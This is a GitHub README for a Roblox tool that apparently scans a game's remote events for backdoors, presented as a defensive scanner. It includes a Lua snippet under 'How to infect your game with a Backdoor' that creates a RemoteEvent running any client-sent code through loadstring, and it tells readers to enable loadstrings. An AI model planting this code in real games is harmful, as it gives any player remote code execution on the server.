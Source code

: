 <h2 align="center"> 
  <a href="https://github.com/iK4oS/backdoor.exe">
    <img src="logo_outlined.png" width="700" alt="logo">
  </a>
</h2>

<p align="center"> 
  <img alt="Version" src="https://img.shields.io/badge/version-8.0.0-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/iK4oS/backdoor.exe/graphs/commit-activity" target="_blank">
    <img alt="Maintenance" src="https://img.shields.io/badge/Maintained-yes-green.svg" />
  </a>
  <a href="https://github.com/iK4oS/backdoor.exe/blob/master/LICENSE" target="_blank">
    <img alt="License: GPL--3.0" src="https://img.shields.io/github/license/iK4oS/backdoor.exe" />
  </a>
  <div align="center">
  <h1>🚨 THIS HAS BEEN ARCHIVED/DISCONTINUED UNTIL FUTHER NOTICE 🚨</h1>
</div>
</p>

An in-game interface/tool to scan every remote for backdoors. </br>
**Tool was made to find backdoors in your game.** This is NOT a backdoor itself.




<!--- ### ✨ [Demo](https://demo.url/) Comming soon 😉 --->

# How to infect your game with a Backdoor
```lua
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "Backdoor"
backdoor.OnServerEvent:connect(function(player, SS)
    loadstring(SS)()
end)
```
Do not forget to **Enable Loadstrings in ServerScriptServices** <br>
![image](https://user-images.githubusercontent.com/47014074/233855562-e9afa553-4279-4501-a26d-43623852d3dc.png)


# Macros
Macros are string that get replaced so you don't have to type out your information each time.
| MACRO | INFO |
| :---: | :--- |
| %username% | Your username |
| %userid% | Your User ID |
| %userping% | Your ping |
| %debug% | Your debug setting |


# Contributing
Contributions, issues, and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/iK4oS/backdoor.exe/issues).
* Undetected backdoors reports are appreciated as contribute to providing the best-updated backdoor scanner out there.

# Show your support
Give a ⭐️ if this project helped you or join our [Discord](https://discord.com/invite/xJHCqm84cW) !

# 📝 License

Copyright © 2021 [iK4oS](https://github.com/iK4oS).<br />
This project is [GPL-3.0](https://github.com/iK4oS/backdoor.exe/blob/master/LICENSE) licensed.
